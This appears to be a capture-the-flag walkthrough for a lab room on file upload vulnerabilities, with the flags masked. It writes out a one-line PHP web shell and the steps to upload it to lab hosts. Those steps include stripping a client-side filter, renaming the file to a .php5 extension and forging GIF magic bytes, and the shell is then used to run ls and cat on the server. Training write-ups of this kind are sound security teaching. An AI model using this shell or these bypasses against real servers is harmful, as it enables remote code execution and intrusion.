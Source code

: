 # Upload Vulnerabilities

- Configure your hosts file for the task, as per the instructions above.

	  no answer needed

- Read and understand the above information.

	  no answer needed

- Read the General Methodology

	  no answer needed

- What is the name of the image file which can be overwritten?

	- Look at the source code, something like `images/***********`
	- `********.***`

- Overwrite the image. What is the flag you receive?

	- `*************************************`

- Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads?

	- No
	- `scilla dir -target shell.uploadvulns.thm`
	- `/*********`

- Get either a web shell or a reverse shell on the machine.
What's the flag in the /var/www/ directory of the server?

	- Create a fie called `ws.php`
	- Paste this inside
	~~~
	<?php
    		echo system($_GET["cmd"]);
	?>
	~~~
	- Upload the file.
	- Navigate to `http://shell.uploadvulns.thm/resources/`
	- Click on ws.php.
	- `http://shell.uploadvulns.thm/resources/ws.php?cmd=ls`
	- `http://shell.uploadvulns.thm/resources/ws.php?cmd=pwd`
	- `http://shell.uploadvulns.thm/resources/ws.php?cmd=ls%20../../`
	- `http://shell.uploadvulns.thm/resources/ws.php?cmd=cat%20../../flag.txt`
	- `********************************************`

- What is the traditional server-side scripting language?

	- `php`

- When validating by file extension, what would you call a list of accepted extensions (whereby the server rejects any extension not in the list)?

	- `whitelist`

- [Research] What MIME type would you expect to see when uploading a CSV file?

	- `****/csv`

- What is the flag in /var/www/?

	- `scilla dir -target http://java.uploadvulns.thm/`
	- `images` is the interesting directory.
	- Visit http://java.uploadvulns.thm with BurpSuite enabled.
	- Intercept response (remember to disable js filtering on options sub-tab).
	- Delete this line:
	~~~
	<script src="assets/js/client-side-filter.js"></script>
	~~~
	- Upload `ws.php`.
	- Navigate to `/images`.
	- Click on ws.php.
	- `http://java.uploadvulns.thm/images/ws.php?cmd=ls`
	- `http://java.uploadvulns.thm/images/ws.php?cmd=pwd`
	- `http://java.uploadvulns.thm/images/ws.php?cmd=ls%20../../`
	- `http://java.uploadvulns.thm/images/ws.php?cmd=cat%20../../flag.txt`
	- `********************************************`

- What is the flag in /var/www/?

	- Upload a `jpg` file and see if this is accepted. OK, accepted.
	- Rename `ws.php` to `ws.php5`.
	- Upload that.
	- `scilla dir -target annex.uploadvulns.thm`
	- `/privacy` found.
	- Click on ws.php5.
	- `http://annex.uploadvulns.thm/privacy/ws.php5?cmd=ls`
	- `http://annex.uploadvulns.thm/privacy/ws.php5?cmd=pwd`
	- `http://annex.uploadvulns.thm/privacy/ws.php5?cmd=ls%20../../`
	- `http://annex.uploadvulns.thm/privacy/ws.php5?cmd=cat%20../../flag.txt`
	- `********************************************`

- Grab the flag from /var/www/

	- `file ws.php`
	- `hexeditor ws.php`
	- Change the first bytes with `47 49 46 38 37 61`.(GIF87a)
	- Upload on http://magic.uploadvulns.thm
	- As done before....
	- `**********************************************`

- Read the example methodology

	  no answer needed

- 

	- I had some problems with this :(
	- I suggest you to see this video, It's perfect. https://www.youtube.com/watch?v=5uGWFWvpJUg





